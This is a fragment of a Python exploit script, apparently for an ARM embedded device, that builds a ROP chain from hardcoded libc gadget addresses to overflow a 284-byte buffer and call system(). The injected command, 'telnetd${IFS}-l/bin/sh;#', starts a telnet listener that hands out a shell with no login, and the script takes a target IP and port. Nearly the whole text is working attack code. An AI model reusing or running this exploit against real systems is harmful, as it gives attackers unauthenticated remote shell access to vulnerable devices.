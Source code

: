 ```python
            s += b
    return s

##### HELPER FUNCTIONS FOR ROP CHAINING #####

# function to create a libc gadget
# requires a global variable called libc_base
def libc(offset):
    return pack32(libc_base + offset)

# function to represent data on the stack
def data(data):
    return pack32(data)

# function to check for bad characters
# run this before sending out the payload
# e.g. detect_badchars(payload, "\x00\x0a\x0d/?")
def detect_badchars(string, badchars):
    for badchar in badchars:
        i = string.find(badchar)
        while i != -1:
            sys.stderr.write("[!] 0x%02x appears at position %d\n" % (ord(badchar), i))
            i = string.find(badchar, i+1)

##### MAIN #####

if len(sys.argv) != 3:
    print("Usage: expl.py <ip> <port>")
    sys.exit(1)

ip = sys.argv[1]
port = sys.argv[2]

libc_base = 0x40021000

buf = "A" * 284
#buf += "BBBB"

"""
0x40060b58 <+32>:    ldr     r0, [sp, #4]
0x40060b5c <+36>:    pop     {r1, r2, r3, lr}
0x40060b60 <+40>:    bx      lr
"""
ldr_r0_sp = pack32(0x40060b58)

# 0x00033a98: mov r0, sp; mov lr, pc; bx r3;
mov_r0 = pack32(libc_base + 0x00033a98)
system = pack32(0x4006079c)

buf += ldr_r0_sp


buf += "BBBB"
buf += "CCCC"
#buf += "DDDD"
buf += system
#buf += "EEEE"
buf += mov_r0
buf += "telnetd${IFS}-l/bin/sh;#"

"""
buf += "FFFF"
buf += "GGGG"
```